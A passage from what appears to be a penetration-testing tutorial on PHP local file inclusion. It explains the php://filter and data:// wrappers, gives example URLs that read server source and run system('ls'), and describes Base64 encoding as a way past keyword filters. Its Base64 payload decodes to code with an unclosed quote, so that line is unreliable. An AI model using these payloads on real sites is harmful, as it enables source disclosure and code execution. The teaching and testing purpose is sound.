 The `php://filter` wrapper can be used to *display* the contents of sensitive files with or without encoding. It is especially useful because it allows us to *read* a PHP file on the server rather than execute it as a typical LFI would. 

The basic syntax for the `php://filter` wrapper is

```php
php://filter/ENCODING/resource=FILE
```

The encoding may or may not be present. One common encoding is `convert.base64-encode`.

>[!EXAMPLE]-
>
>Using the earlier example, the filter wrapper can allow an adversary to read the contents of the `preview.php` file itself!
>
>```
>http://example.com/preview.php?file=php://filter/resource=preview.php
>```
>
>The content can also be obtained in a Base64-encoded format by utilising the following payload:
>
>```
>http://example.com/preview.php?file=php://filter/convert.base64-encode/resource=preview.php
>```
>

### Data Wrapper

The `data://` wrapper embeds content in a plaintext or Base64-encoded format into the code of the running web application and can be used to achieve code execution when we cannot directly poison or upload a PHP file to the server. 

```admonish note
The `data://` wrapper requires that the `allow_url_include` option is enabled.
```

The plaintext syntax is the following:

```php
data://text/plain,CODE
```

The Base64-encoding can be used to bypass firewalls and filters which remove common payload strings such as `"system"` or `"bash"`:

```php
data://text/plain;base64,BASE64-ENCODED CODE
```

>[!EXAMPLE]-
>
>To weaponise the `data://` wrapper in the previous example, an adversary can use the following payload:
>
>
>`http://example.com/preview.php?file=data://text/plain,<?php%20echo%20system('ls');?>`
>
>
>This would list the contents of the current directory. Alternatively, they could use the Base64 encoding of the same code:
>
>`http://example.com/preview.php?file=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oImxzKTsgPz4K`
>
